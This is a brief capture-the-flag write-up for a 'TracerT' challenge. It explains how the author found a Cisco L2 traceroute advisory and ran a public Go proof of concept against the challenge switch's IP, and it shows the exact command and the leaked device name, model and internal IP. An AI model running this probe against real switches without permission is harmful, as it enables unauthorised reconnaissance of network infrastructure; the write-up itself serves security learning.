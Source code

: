 A sort of basic writeup for TracerT:

The following will not work with the switches FQDN tracert.cg21.mctf.io.

You can find the switches IP address with a DNS lookup like so:
`dig tracert.cg21.mctf.io +short`

After fiddling around a while with snmp and failing I decided to search for Cisco security advisories instead.

You can look at the cisco security advisories here and search for traceroute:
https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=Traceroute&sort=-day_sir#~Vulnerabilities

Which leads to this informational report:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190925-l2-traceroute#recommendations
Here the L2 traceroute feature is explained as well as its weakness.
The feature is enabled by default on Catalyst Switches.
At the bottom the security researcher Chris Marget is mentioned, who discovered the weakness.

You can find him on twitter and github.
On Github he has a repo with a working proof of concept written in Go.
https://github.com/chrismarget/cisco-l2t

Clone his repo and run the cmd/l2t_ss/main.go script like so:

`go run main.go -t 1 -a 1:ffff.ffff.ffff -a 2:ffff.ffff.ffff -a 3:100 -a 14:0.0.0.0 34.207.70.151`

My output:
```
git:(master) $ go run main.go -t 1 -a 1:ffff.ffff.ffff -a 2:ffff.ffff.ffff -a 3:100 -a 14:0.0.0.0 34.207.70.151
Received: L2T_REPLY_DST (3) with 4 attributes (51 bytes)
   4 L2_ATTR_DEV_NAME     thats-tracer-t-to-u
   5 L2_ATTR_DEV_TYPE     WS-C2950T-24
   6 L2_ATTR_DEV_IP       192.168.28.125
  15 L2_ATTR_REPLY_STATUS Status unknown (3)
```
